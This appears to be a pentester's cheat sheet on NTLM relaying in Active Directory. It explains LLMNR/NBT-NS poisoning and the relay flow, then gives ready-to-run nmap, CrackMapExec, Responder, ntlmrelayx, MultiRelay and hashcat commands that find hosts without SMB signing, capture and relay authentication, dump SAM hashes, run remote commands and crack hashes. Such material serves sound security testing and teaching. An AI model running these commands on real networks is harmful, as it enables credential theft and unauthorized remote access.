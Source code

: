 # Active Directory - NTLM Relaying

### Overview

The **LLMNR and NBT-NS poisoning attack**, combined with the **SMB Relay
attack**, or **NTLM Relaying**, can be used to gain an authenticated access to
servers by capturing local network `SMB` authentication traffic and relaying it
to targets servers.

Even when the organization has good patch management practices, this reliable
and effective attack can almost always be leveraged to obtain an initial
foothold.

###### LLMNR and NBT-NS poisoning

The **Link-Local Multicast Name Resolution (LLMNR)** and **Netbios Name
Service (NBT-NS)** protocols can be abused to intercept local network traffic.

These components allow machines on the same subnet to identify hosts when `DNS`
resolution fails. If one machine tries to resolve a particular host, but `DNS`
resolution fails, the machine will then attempt to ask all other machines on
the local network for the correct address via `LLMNR` or `NBT-NS`.

An attacker can listen on a network for these `LLMNR` (`UDP`/5355) or `NBT-NS`
(`UDP`/137) broadcasts requests and respond to them, thus pretending to be the
requested host.

###### NTLM relaying

The **NT LAN Manager v1 and v2** authentication process, used in by the
**Server Message Block (SMB)** protocol can be subverted.

The attack unwinds as follow:
  1. The victim tries to authenticates himself to a server
     (`SMB_COM_NEGOTIATE` Request)
  2. The authentication request is intercepted by an attacker
  3. The attacker initiates an authentication procedure to a targeted server
     and retrieves an authentication challenge (`NTLM_CHALLENGE_MESSAGE`) from
     this server
  4. The attacker forwards this challenge to the victim
  5. The victim answers the challenge to the attacker
     (`NTLM_AUTHENTICATION_MESSAGE`)  
  6. The attacker can then relay the victim challenge response to the targeted
     server to authenticate as the victim
  7. If the victim has local admin rights on the server, an complete access can
     be acquired   

Since MS08-068 you cannot relay a `Net-NTLM` hash back to the same machine you
got it from (e.g. the 'reflective' attack) unless you're performing a
cross-protocol relay.

For the attack to work, `SMB` Signing needs to be disabled on the targeted
machine. While `SMB` packet signing is available in all supported versions of
Windows, it is enabled by default on Domain Controllers.

### Exploit

*To capture and offline crack the hashes captured, do not disable Responder SMB
and HTTP servers. The authentication attempt won't be transmitted to the relay
servers and no NTLM relaying is possible.  
To crack the Net-NTLMv2 hashes use hashcat:  
`hashcat -m 5600 <HASHFILE> <WORDLIST> -o <OUTPUTFILE>`*

First, a list of host with `SMB signing` must be gathered. Either `nmap` or
`CrackMapExec` V4 can be used.

`Responder` can be used to conduct the `LLMNR` and `NBT-NS` poisoning
attack and the `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py`, that comes
with the `Responder` toolkit, scripts can be used for the `NTLM` relaying.  

##### List SMB Signing disabled hosts

Either `nmap`, `CMEv4` or `PingCastle` (personal favorite) can be used to
gather a list of host with `SMB signing` disabled and output the result to a
file:

```bash
PingCastle.exe -> 5-scanner -> a-smb -> 1-all

nmap -v -sU -sS --open -oA nmap_smb_signing_off --script smb-security-mode.nse -p U:137,T:139,445 <TARGETS>
cat nmap_smb_signing_off.nmap | grep -B 14 "message_signing: disabled" | grep "Nmap scan report for" | cut -d " " -f 5 > <FILE>

cme smb <HOSTNAME | IP | CIDR | TARGETS_FILE> --gen-relay-list <FILE>
```

##### Intercepting

To check if a specific host, identified by its hostname, has `LLMNR` activated:

```
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>'
nmap --script llmnr-resolve --script-args 'llmnr-resolve.hostname=<HOSTNAME>' -e <NETWORK_INTERFACE>

# Metasploit
use auxiliary/scanner/llmnr/query
set NAME <HOSTNAME>
run
```

If `LLMNR` is disabled, system have been hardened but `NBT-NS` may still be
enabled.

`Responder` can be used to conduct the `LLMNR` and `NBT-NS` poisoning attack.

*Do not use the version of Responder on SpiderLab's Github repository as it
isn't maintained anymore, use lgandx's fork instead.*

Edit the `Responder.conf` file and turn off the `SMB` and `HTTP` servers:

```
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

With those servers turned off, the authentication attempts captured are
automatically passed to `ntlmrelayx.py`'s `SMB` and `HTTP` servers for the
relay attack.

Starts `Responder` :

```
# -r : Enable answers for netbios wredir suffix queries
# -d : Enable answers for netbios domain suffix queries
# -w :  Start the WPAD rogue proxy server

python Responder.py -I <NETWORK_INTERFACE> -r -d -w
```

##### Relaying

The `ntlmrelayx.py` `Impacket`'s or `MultiRelay.py` (personal favorite), that
comes with the `Responder` toolkit, scripts can be used for the `NTLM` relaying
part:  

```
# MultiRelay
MultiRelay.py -t <HOSTNAME | IP> -c '<COMMAND>' -u '<ALL | USERNAME_TO_RELAY>'

# ntlmrelayx - By default, dump SAM base.
ntlmrelayx.py -t <IP | HOSTNAME>
ntlmrelayx.py -tf <TARGETS_FILE>
ntlmrelayx.py -t <IP | HOSTNAME> -c <COMMAND>
ntlmrelayx.py -tf <TARGETS_FILE> -c <COMMAND>
```
